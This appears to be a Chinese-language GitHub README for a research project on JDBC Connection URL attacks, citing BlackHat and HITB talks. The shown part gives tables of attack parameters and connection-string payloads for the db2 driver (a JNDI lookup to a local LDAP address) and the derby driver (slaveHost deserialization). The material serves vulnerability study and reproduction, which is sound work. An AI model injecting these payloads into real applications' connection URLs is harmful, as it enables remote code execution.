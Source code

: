 # JDBC Connection URL Attack

No one knows JDBC Connection URL like me.



## 前言

在 JDBC Connection URL 可控的情况下，攻击者可以进行什么样的攻击？

议题最开始在 BlackHat Europe 2019 上由 Back2Zero 团队给出演讲，后在 HITB SECCONF SIN-2021 上由 Litch1 & pyn3rd 进行了拓展和延伸。

以下为两次分享的 PPT 地址：

https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf

https://conference.hitb.org/hitbsecconf2021sin/materials/D1T2%20-%20Make%20JDBC%20Attacks%20Brilliant%20Again%20-%20Xu%20Yuanzhen%20&%20Chen%20Hongkun.pdf

学习记录文章：https://su18.org/post/jdbc-connection-url-attack/

文章是对上面两篇演讲的学习和记录，在漏洞复现调试基础上查看、分析了一些关键的触发点和 sink 点，并在分享者视角之外提出了一些自己的看法。

本项目是漏洞复现和测试代码，已全部经过测试。欢迎下载学习和调试。



## 项目内容

本项目共包含 6 中常见的数据库链接项目的攻击方式（db2/derby/h2/modeshape/mysql/sqlite）。



### db2

| 参数     | 值                                                           |
| -------- | ------------------------------------------------------------ |
| 驱动名称 | `com.ibm.db2.jcc.DB2Driver`                                  |
| 攻击向量 | `clientRerouteServerListJNDIName`                            |
| 连接参数 | `:clientRerouteServerListJNDIName=ldap://127.0.0.1:23457/Command8;` |
| 备注     | `clientRerouteServerListJNDIName` 参数触发 JNDI 查询         |



### derby

| 参数     | 值                                                           |
| -------- | ------------------------------------------------------------ |
| 驱动名称 | `org.apache.derby.jdbc.EmbeddedDriver`                       |
| 攻击向量 | `slaveHost`                                                  |
| 连接参数 | `startMaster=true;slaveHost=127.0.0.1`                       |
| 备注     | `slaveHost` 参数触发与 slave server 的连接会从 slave 读取流并反序列化 |
